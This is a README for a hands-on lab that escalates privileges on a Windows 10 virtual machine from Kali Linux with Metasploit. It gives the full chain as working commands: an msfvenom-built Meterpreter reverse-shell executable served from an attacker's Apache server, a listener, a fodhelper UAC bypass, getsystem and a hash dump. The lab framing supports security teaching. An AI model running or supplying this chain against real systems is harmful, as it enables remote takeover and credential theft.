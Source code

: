 # Windows Privilege Escalation

This repository demonstrates a hands-on lab for privilege escalation on a vulnerable Windows machine using a Kali Linux attacker machine. The lab showcases how to exploit vulnerabilities to gain higher privileges and includes detailed steps for exploitation and escalation.

---

## Objectives

* Demonstrate how to escalate privileges on a victim machine by exploiting its vulnerabilities.
* Perform exploitation using Metasploit Framework.
* Understand how to bypass User Account Control (UAC) and gain elevated privileges.

---

## Prerequisites

* **Kali Linux** virtual machine with networking configured.
* **Windows 10** virtual machine with networking configured.
* Both VMs must be on the same network and have connectivity.

---

## Workflow

### 1. Setup Apache to Share Exploit File

Run the script to configure Apache and set up the shared folder for delivering the malicious payload.

```bash
./setup_apache.sh
```

This will:

* Install Apache if not already installed.
* Configure the Apache server to host a directory for sharing files.
* Copy the malicious payload `Exploit.exe` to the shared directory.

#### Scripts
##### setup_apache.sh:<br>
*Sets up Apache.<br>
*Creates a shared directory for the payload.<br>
*Copies the malicious payload to the shared directory.<br>
*Outputs the shareable URL.<br>

##### metasploit_commands.sh:<br>
*Automates starting Metasploit.<br>
*Sets up a handler to listen for incoming sessions.<br>
*Begins exploitation and lists active sessions.<br>

### 2. Create the Exploit File

Generate the malicious payload using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=<KALI_IP> -f exe > Desktop/Exploit.exe
```

Replace `<KALI_IP>` with your Kali machine's IP address.

### 3. Start Apache Server

Ensure Apache is running:

```bash
sudo service apache2 start
```

The malicious payload will be accessible via `http://<KALI_IP>/share/Exploit.exe`.

### 4. Start Metasploit Handler

Prepare Kali to catch the connection when the victim runs the payload:

1. Open a terminal and start Metasploit:

   ```bash
   msfconsole
   ```

2. Run the following commands in Metasploit:

   ```
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <KALI_IP>
   exploit -j -z
   ```

This starts the listener and prepares to catch incoming connections from the victim machine.

### 5. Perform Exploitation

On the Windows 10 victim machine:

1. Open a browser and navigate to: `http://<KALI_IP>/share/`.
2. Download and run `Exploit.exe`. If prompted with a security warning, click **Run**.

### 6. Meterpreter Session

After the victim executes the payload, a Meterpreter session will open on Kali. Use the following commands:

* List active sessions:

  ```
  sessions
  ```

* Interact with the session:

  ```
  sessions -i <ID>
  ```

Replace `<ID>` with the session ID displayed in the `sessions` command output.

### 7. Privilege Escalation

To escalate privileges:

1. Attempt privilege escalation:

   ```
   getsystem
   ```

2. If this fails, bypass User Account Control (UAC):

   ```
   use exploit/windows/local/bypassuac_fodhelper
   set SESSION <ID>
   run
   ```

3. Once UAC is bypassed, re-run `getsystem`:

   ```
   getsystem
   ```

4. Verify elevated privileges:

   ```
   getuid
   ```

   You should see: `NT AUTHORITY\SYSTEM`.

---
### 8. Dump Password Hashes
 ```bash
run post/windows/gather/smart_hashdump
```
## Repository Structure

```plaintext
Windows-privilege-escalation/
├── scripts/
│   ├── setup_apache.sh      # Automates Apache setup and payload sharing.
│   └── metasploit_commands.sh  # Automates Metasploit setup and exploitation.
├── README.md                # Detailed documentation for the lab.

```

---

## Notes

* Ensure both VMs are on the same network and can communicate.
* For educational purposes only. Do not use these techniques on unauthorized systems.

---

